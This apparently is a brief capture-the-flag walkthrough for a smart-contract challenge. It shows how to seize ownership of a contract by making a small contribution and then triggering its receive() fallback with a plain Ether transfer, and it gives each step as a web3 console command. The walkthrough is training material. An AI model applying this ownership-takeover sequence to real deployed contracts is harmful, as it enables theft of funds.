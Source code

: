 Can either gain ownership through contribute() function, in which case I require over 100 Ether (takes too long).
Or I can gain ownership by exploiting the Fallback function recieve(), which runs upon funds entering the contract without calldata.

Check who is owner.
`contract.owner()`

I need to be a contributer. So I'll send less than 0.001 Eth to contribute function.
`contract.contribute({value: web3.toWei('0.0009')})`

Check I am a contributer.
`contract.getContribution().then(v=>v.toString())`

Now I just need to trigger the recieve() fallback.
`contract.sendTransaction({value: web3.toWei('0.0001')})`

Check I am now owner.
`contract.owner()`
`player`
